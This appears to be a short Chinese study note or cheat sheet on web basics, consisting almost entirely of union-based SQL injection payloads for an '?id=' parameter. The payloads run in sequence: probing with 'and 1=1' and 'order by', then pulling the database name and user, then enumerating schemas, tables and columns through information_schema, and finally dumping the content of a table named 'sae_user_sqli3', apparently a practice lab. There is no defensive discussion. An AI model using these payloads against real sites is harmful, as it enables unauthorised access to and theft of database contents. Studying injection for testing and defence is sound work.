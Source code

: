 
# web基础

* sql注入

## sql注入

> ?id=1 and 1=1  
> ?id=1 order by 10  
> ?id=1 union select 1,2,3  
* 获取数据库名，当前用户
> ?id=1 union select 1,database(),user()
*  获取数据库名
> ?id=1 union select 1,group_concat(SCHEMA_NAME),3 from information_schema.SCHEMATA
* 获取数据库表  
> ?id=1 union select 1,group_concat(TABLE_NAME),3 from information_schema.TABLES where TABLE_SCHEMA = 'mydbs'
* 根据获取的数据库表获取表名  
> ?id=1 union select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where TABLE_NAME = 'sae_user_sqli3'
* 获取表中的内容（也可以union 获取表中数据）  
> ?id=1 union select 1,group_concat(content),3 from sae_user_sqli3


